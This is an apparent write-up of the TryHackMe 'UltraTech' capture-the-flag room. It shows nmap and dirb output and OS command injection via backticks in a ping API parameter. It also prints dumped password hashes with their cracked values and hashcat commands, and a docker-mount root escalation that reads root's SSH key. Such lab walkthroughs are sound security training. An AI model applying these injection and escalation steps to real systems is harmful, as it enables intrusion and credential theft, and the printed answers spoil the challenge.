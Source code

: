 # try hack me (ulta-tech)



## nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-19 17:14 IST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.10.39.191
Host is up (0.45s latency).
Not shown: 9997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 260.06 seconds


```
we got port 8081 port for the system.
then we ched the system also we got the another port is /31331

for that we have make the nmap scan we get.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-22 14:51 IST
Nmap scan report for 10.10.113.176
Host is up (0.48s latency).

PORT      STATE SERVICE VERSION
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.56 seconds


```

we have to check the directories in site. 
```
dirb 10.10.113.176:31331

[17:57:56] 301 -  318B  - /js  ->  http://10.10.39.191:31331/js/
[17:58:02] 403 -  301B  - /.ht_wsr.txt
[17:58:02] 403 -  304B  - /.htaccess.bak1
[17:58:02] 403 -  304B  - /.htaccess.orig
[17:58:02] 403 -  306B  - /.htaccess.sample
[17:58:02] 403 -  304B  - /.htaccess.save
[17:58:02] 403 -  305B  - /.htaccess_extra
[17:58:02] 403 -  304B  - /.htaccess_orig
[17:58:02] 403 -  302B  - /.htaccess_sc
[17:58:02] 403 -  302B  - /.htaccessOLD
[17:58:02] 403 -  302B  - /.htaccessBAK
[17:58:02] 403 -  303B  - /.htaccessOLD2
[17:58:02] 403 -  294B  - /.htm
[17:58:02] 403 -  295B  - /.html
[17:58:02] 403 -  304B  - /.htpasswd_test
[17:58:02] 403 -  300B  - /.htpasswds
[17:58:02] 403 -  301B  - /.httr-oauth
[17:58:06] 403 -  294B  - /.php
[17:59:11] 301 -  319B  - /css  ->  http://10.10.39.191:31331/css/
[17:59:21] 200 -   15KB - /favicon.ico
[17:59:28] 301 -  322B  - /images  ->  http://10.10.39.191:31331/images/
[17:59:28] 200 -    4KB - /images/
[17:59:29] 200 -    6KB - /index.html
[17:59:31] 301 -  326B  - /javascript  ->  http://10.10.39.191:31331/javascript/
[17:59:32] 200 -    1KB - /js/
[18:00:00] 200 -   53B  - /robots.txt
[18:00:02] 403 -  303B  - /server-status
[18:00:02] 403 -  304B  - /server-status/
```
after we brute for the and checks any vurnarabality in the in api.js we have a clue call. 
`10.10.113.176:8081/ping?ip=10.10.113.176`
it ping s the command

after that it command window right. lets check any files are databases in it
http://10.10.113.176:8081/ping?ip=`ls`
we got this `utech.db.sqlite`

in this database we got a hash text.
http://10.10.113.176:8081/ping?ip=`cat%20utech.db.sqlite`

 ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84

r00t-> f357a0c52799563c7c7b76c1e7543a32:n100906

admin-> 0d0ea5111e3c1def594c1684e3b9be84:mrsheafy

hashcat -a 0 -m 0 0d0ea5111e3c1def594c1684e3b9be84 /usr/share/SecLists/rockyou.txt
hashcat -a 0 -m 0 f357a0c52799563c7c7b76c1e7543a32) /usr/share/SecLists/rockyou.txt

we are login via ssh : `ssh r00t@10.10.41.251`

we are entered the shell lets check the root privilage for this.
```
sudo -l
```
we didn't get anything. for that lets check the id of the system`id` command to check the root or other service are working are not.

we are seen the `docker`, for this lets check the privilage escation for docker in this website [gtfobins](https://gtfobins.github.io/gtfobins/docker/#sudo).

we got this command 

`sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh`.

now we are in docker, then check the operation is running.

`docker ps`

we got chroot, for this get into the chroot usin this command. `docker run -v /:/mnt --rm -it bash chroot /mnt sh`

we are enter the privilage mode. now we have to modify this mode.

lets check the id_rsa 9 digit value in
```
cat /root/.ssh/id_rsa
```
we got :`MIIEogIBA`

https://www.linkedin.com/sharing/share-offsite/?url=www.tryhackme.com/r/room/ultratech1